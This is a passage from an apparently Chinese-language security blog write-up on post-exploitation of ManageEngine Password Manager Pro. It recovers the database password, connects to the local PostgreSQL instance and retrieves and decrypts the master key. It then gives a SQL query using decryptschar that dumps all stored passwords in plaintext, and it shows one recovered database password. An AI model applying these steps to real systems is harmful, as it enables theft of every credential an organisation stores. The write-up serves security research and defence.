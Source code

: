填入加密的数据库密码，查看结果

[![Untitled](assets/1710207710-aa212aae1d4dd7a022258a5deabd1495.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2015.png)

可以看到密码为:sC1ekMrant

连接 pgsql 测试

[![Untitled](assets/1710207710-4c1236e0a9ed8da9dcd11b4cce653b5e.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2016.png)

[![Untitled](assets/1710207710-2329bac6b5fd48e571da7f242da01714.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2017.png)

这里注意，pmp 默认的 pgsql 是只监听 127 的 2345，无法外部连接，如果是 rce 打的，可以自行进行端口转发

[![Untitled](assets/1710207710-089745205542b3c35a3df251f43f1f77.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2018.png)

- - -

## [](#%E8%8E%B7%E5%8F%96master-key)获取 `master key`

在连接数据库后，查询加密的 `master key`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>select<br>notesdescription<br>from<br>Ptrx_NotesInfo<br>``` |

[![Untitled](assets/1710207710-365be5d79b777949bad9b4a5b72583ba.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2019.png)

这里通过 `pmp_key.key` 文件中的 PMP 密钥来解密 `master key`

shielder 的代码在解的时候有些问题，这里使用 [https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks) 项目来进行解密

[![Untitled](assets/1710207710-db85db951f022c520c061f7e63b6b5c9.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2020.png)

得到 `master key`

- - -

## [](#%E8%A7%A3%E5%AF%86%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81)解密数据库中的密码

首先先查询数据库中的存储的密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select ptrx_account.RESOURCEID, ptrx_resource.RESOURCENAME, ptrx_resource.RESOURCEURL, ptrx_password.DESCRIPTION, ptrx_account.LOGINNAME, decryptschar(ptrx_passbasedauthen.PASSWORD,'***master_key***') from ptrx_passbasedauthen LEFT JOIN ptrx_password ON ptrx_passbasedauthen.PASSWDID = ptrx_password.PASSWDID LEFT JOIN ptrx_account ON ptrx_passbasedauthen.PASSWDID = ptrx_account.PASSWDID LEFT JOIN ptrx_resource ON ptrx_account.RESOURCEID = ptrx_resource.RESOURCEID<br>``` |

用 `master key` 替换语句里的 `***master_key***` 部分

[![Untitled](assets/1710207710-81cf95f33e3d9430d5e41ef3fc3baefe.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2021.png)

